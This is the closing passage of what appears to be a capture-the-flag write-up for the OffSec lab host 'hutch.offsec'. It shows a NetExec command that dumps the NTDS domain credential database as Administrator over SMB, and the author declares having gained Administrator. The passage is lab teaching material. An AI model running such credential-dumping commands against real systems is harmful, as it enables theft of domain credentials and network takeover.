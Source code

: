 ```bash
nxc smb hutch.offsec -u Administrator -p <PASSWORD> --ntds
```
{: .nolineno}
![Image](Pasted%20image%2020240819172343.png)

I am Administrator Now !









> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }